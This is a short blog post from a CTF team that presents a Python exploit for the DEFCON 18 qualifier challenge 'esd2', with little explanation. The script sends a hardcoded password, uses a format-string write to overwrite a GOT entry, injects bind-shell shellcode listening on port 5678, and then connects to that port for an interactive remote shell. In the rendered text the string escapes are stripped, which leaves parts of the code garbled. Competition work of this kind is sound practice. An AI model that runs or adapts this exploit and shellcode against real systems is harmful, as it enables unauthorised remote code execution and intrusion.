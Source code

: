 ```yaml
---
title: 'DEFCON 18 Quals: Pwtent Pwnables 500 esd2 exploit'
author: longld
layout: post

aktt_notify_twitter:
  - no
shorturls:
  - 'a:4:{s:5:"bitly";s:0:"";s:9:"permalink";s:78:"http://www.vnsecurity.net/2010/05/defcon-18-quals-pwtent-pwnables-500-exploit/";s:7:"tinyurl";s:26:"http://tinyurl.com/3xuur84";s:4:"isgd";s:18:"http://is.gd/eBZF7";}'
tweetbackscheck:
  - 1408358975
twittercomments:
  - 'a:0:{}'
tweetcount:
  - 0
category:
  - 'CTF - CLGT Crew'
tags:
  - '2010'
  - CLGT
  - CTF
  - DEFCON
---
```

CLGT did not solved this during the quals! Here is the exploit for  the **esd2 **[leaked][1] from pp200 (thanks beist for sharing). More analysis & write up for the real pp500 will come later:

<pre class="brush: python; title: ; notranslate" title="">#!/usr/bin/env python

import socket
import struct
import telnetlib
import time

HOST = '192.168.56.101'
PORT = 8302

def xor_input(data):
    static = "%5d | %5dn" + "x00"*4
    out = ""
    for i in range(len(data)):
        out += chr(ord(static[i]) ^ ord(data[i]))
    return out

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

# send password
s.send("sp3wn0w" + "n")

# prepare the payload
# overwrite lseek@plt, original value = 0x08048ae2
target = 0x804a30c
# shellcode address = 0x0804a040 + 142 bytes (padding + fmt_string)
ret = 0x0804a0ce
# value to write into target
write_byte = 0xa0ce
# payload = target + padding(128 - 4) + 14 (fmt_string) + shellcode
padding = "A"*128
fmt_string = "%" + str(write_byte) + "u%24$hn"
fmt_string = xor_input(fmt_string)

# bindshell: port 5678
shellcode = "x00x29xc9x83xe9xecxd9xeexd9x74x24xf4x5bx81x73x13x63x7dxa9x09x83xebxfcxe2xf4x09x1cxf1x90x31x15xb9x0bx75x53x20xe8x31x3fxfbx4bx31x17xb9xc4xe3xe4x3ax58x30x2fxc3x61x3bxb0x29xb9x09xb0x29x5bx30x2fx19x17xaexfdx3ex63x61x24xc3x53x3bx2cxfex58xaexfdxe0x70x96x2dxc1x26x4cx0exc1x61x4cx1fxc0x67xeax9exf9x5dx30x2ex19x32xaexfdxa9x09"

payload = struct.pack("&lt;L", target) + padding[4:] + fmt_string + shellcode + "n"

print "Sending payload...", repr(payload)
s.send("cn" + str(len(payload)) +"n")
s.send(payload)
# trigger the read_blob that calls lseek()
s.send("rn" + "10n")

print "Connecting to remote shell port 5678..."
time.sleep(4)
t = telnetlib.Telnet(HOST, 5678)
t.write("idnn")
t.interact()

t.close()
s.close()
</pre>

 [1]: http://beist.org/esd2